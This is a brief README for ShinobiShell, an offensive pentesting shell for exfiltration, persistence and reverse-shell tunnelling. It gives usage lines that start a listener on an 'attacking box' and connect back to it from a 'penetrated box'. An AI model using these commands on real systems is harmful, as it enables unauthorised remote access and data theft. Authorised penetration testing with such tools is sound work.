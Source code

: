 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
Shinobi shell is a shell specifically designed to make exfiltration, proxying, persistance and other pentesting actions easier.

'-a', '--address', The machine address with a Shinobi Shell listener running'
'-l', '--listen', 'Starts Shinobi Shell listener on port passed in'
'-k', '--key', 'Secret shared key used to create an encrypted tunnel between Shinobi Server and Clients (Required)'
'-r', '--serveraddress', 'Local IP Address used for universal reverse shell handler'
```
Use:

Server (Attacking box) 
`./shinobishell.py -l 4443 -k 1234567890123456`

Client (Penetrated box) 
`./shinobishell.py --address 192.168.1.2:4443 -k 123456790123456` 


